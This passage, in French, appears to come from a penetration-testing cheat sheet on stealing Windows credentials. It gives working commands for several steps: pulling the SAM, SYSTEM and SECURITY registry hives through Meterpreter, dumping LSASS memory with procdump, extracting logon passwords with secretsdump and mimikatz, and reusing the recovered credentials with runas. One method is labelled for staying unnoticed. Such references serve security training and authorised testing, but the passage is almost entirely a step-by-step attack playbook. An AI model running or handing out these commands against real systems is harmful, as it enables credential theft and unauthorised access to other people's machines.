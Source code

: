 #### 📁 Récupération de fichiers via Meterpreter pour Secretsdump
```bash
# Dans Meterpreter - Récupérer fichiers système
download C:\\Windows\\System32\\config\\SAM /tmp/SAM
download C:\\Windows\\System32\\config\\SYSTEM /tmp/SYSTEM
download C:\\Windows\\System32\\config\\SECURITY /tmp/SECURITY

# Sur Kali - Analyse offline
secretsdump.py -sam /tmp/SAM -system /tmp/SYSTEM LOCAL
```

### Procdump + Mimikatz (Méthode OPSEC)

#### 🎯 Via Meterpreter
```bash
# 1. Upload procdump
upload /path/to/procdump.exe C:\\temp\\procdump.exe

# 2. Dump LSASS via Meterpreter
shell
cd C:\\temp
procdump.exe -ma lsass.exe lsass.dmp

# 3. Download du dump
exit  # Sortir du shell
download C:\\temp\\lsass.dmp /tmp/lsass.dmp

# 4. Analyse sur Kali
mimikatz "sekurlsa::minidump /tmp/lsass.dmp" "sekurlsa::logonPasswords" exit
```

#### 💻 Méthode Standalone
| Étape | Commande |
|-------|----------|
| **1. Dump LSASS** | `procdump.exe -ma lsass.exe lsass.dmp` |
| **2. Analyse offline** | `mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" exit` |

---

## 🎯 8. Utilisation des credentials trouvés

### Avec runas
| Commande | Description |
|----------|-------------|
| `runas /user:administrator cmd` | Lancer cmd en tant qu'admin |
| `runas /user:domain\administrator cmd` | Avec domaine |
| `runas /savecred /user:administrator cmd` | Utiliser credentials sauvegardés |
| `runas /netonly /user:domain\user cmd` | Pour accès réseau |
